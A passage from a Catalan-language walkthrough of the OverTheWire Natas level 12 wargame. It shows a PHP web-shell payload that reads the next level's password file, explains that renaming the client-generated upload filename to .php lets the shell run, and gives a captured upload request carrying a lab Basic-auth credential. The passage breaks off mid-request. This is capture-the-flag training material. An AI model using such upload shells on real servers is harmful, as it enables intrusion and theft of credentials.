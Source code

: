 ````
Preparem que ens executi la comanda amb bash que serà la contrasenya mostrada amb echo de natas 13:

``<? echo (exec('cat /etc/natas_webpass/natas13')); ?>``


![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/1a8613e8-495c-47af-afb7-acad04b0ed8f)
 

Tornem a modificar el nom random que ens genera, i l’error és que es genera del cantó del client i podem manipular el nom, si vols del cantó del servidor no tindriem res a fer:

  

![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/a595d889-0084-4ed9-ae74-7a74fc7f8f78)


  

![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/6475b157-b17b-41f9-b430-e7caed1e03e6)



```
`POST /index.php HTTP/1.1

Host: natas12.natas.labs.overthewire.org

Content-Length: 457

Cache-Control: max-age=0

Authorization: Basic bmF0YXMxMjpZV3FvMHBqcGNYelNJbDVOTUFWeGcxMlF4ZUMxdzlRRw==

Upgrade-Insecure-Requests: 1

Origin: http://natas12.natas.labs.overthewire.org

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrgvYZeoUMqd7Uzw5

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://natas12.natas.labs.overthewire.org/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: _ga=GA1.1.627158546.1708100915; _ga_RD0K2239G0=GS1.1.1708100914.1.1.1708100926.0.0.0

Connection: close

------WebKitFormBoundaryrgvYZeoUMqd7Uzw5

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
````